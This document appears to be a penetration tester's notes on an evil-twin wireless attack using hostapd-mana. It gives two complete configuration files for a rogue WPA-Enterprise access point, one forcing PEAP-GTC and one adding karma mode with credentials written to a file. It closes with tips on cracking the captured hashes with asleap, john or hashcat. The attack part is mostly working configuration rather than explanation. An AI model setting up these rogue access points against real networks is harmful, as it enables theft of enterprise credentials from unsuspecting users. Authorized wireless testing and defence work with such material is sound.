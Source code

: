 
host evil twin with
``hostapd_mana mana.conf``


#### Attack PEAP-GTC

```
interface=wlan1
ssid=<target ESSID>
channel=6
hw_mode=g
wpa=3
wpa_key_mgmt=WPA-EAP
wpa_pairwise=TKIP CCMP
auth_algs=3
ieee8021x=1
eapol_key_index_workaround=0
eap_server=1
eap_user_file=hostapd.eap_user
ca_cert=/root/certs/ca.pem
server_cert=/root/certs/server.pem
private_key=/root/certs/server.key
private_key_passwd=
dh_file=/root/certs/dhparam.pem
mana_wpe=1
mana_eapsuccess=1
```

karma attack-> So that many clients can connect to us simultaneously
```
interface=wlan1
ssid=<target ESSID>
channel=6
hw_mode=g
wpa=3
wpa_key_mgmt=WPA-EAP
wpa_pairwise=TKIP CCMP
auth_algs=3
ieee8021x=1
eap_server=1
eap_user_file=hostapd.eap_user
ca_cert=/root/certs/ca.pem
server_cert=/root/certs/server.pem
private_key=/root/certs/server.key
dh_file=/root/certs/dhparam.pem
mana_wpe=1
mana_eapsuccess=1
enable_mana=1
mana_credout=hostapd.creds
```

hostapd-mana returns strings to crack WPA-EAP in the following formats
	- asleap
	- john
	- hashcat
I have found that sometimes one tool isn't able to crack it and other is (WTF?) so if one doesn't find the password try with other and the same dictionary
